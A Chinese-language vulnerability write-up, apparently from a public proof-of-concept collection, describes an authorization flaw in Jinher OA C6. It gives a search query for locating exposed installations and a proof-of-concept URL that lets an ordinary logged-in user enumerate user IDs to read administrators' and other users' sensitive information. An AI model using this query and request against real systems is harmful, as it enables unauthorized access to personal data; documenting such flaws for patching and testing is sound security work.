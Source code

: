 # 金和OA C6 DossierBaseInfoView.aspx 后台越权信息泄露漏洞

# 金和OA C6 DossierBaseInfoView.aspx 后台越权信息泄露漏洞

## 漏洞描述

金和OA C6 存在越权信息泄露漏洞，普通用户登录后可以通过遍历ID编号获取管理员及其他用户的敏感信息

## 漏洞影响

```
金和OA C6
```

## 网络测绘

```
app="Jinher-OA"
```

## 漏洞复现

使用普通用户登录 OA应用后台

访问的POC为

```plain
http://xxx.xxx.xxx.xxx/C6/JHSoft.Web.Dossier/DossierBaseInfoView.aspx?CollID=1&UserID=RY120330
```

- 注意 RY120330 需要为确定的其他的用户编号

![1](/images/202202090135010.png)

泄露了部分的敏感信息

## 参考文章

https://mp.weixin.qq.com/s/gwHQVIZeMWfT8a5lBX_4WA

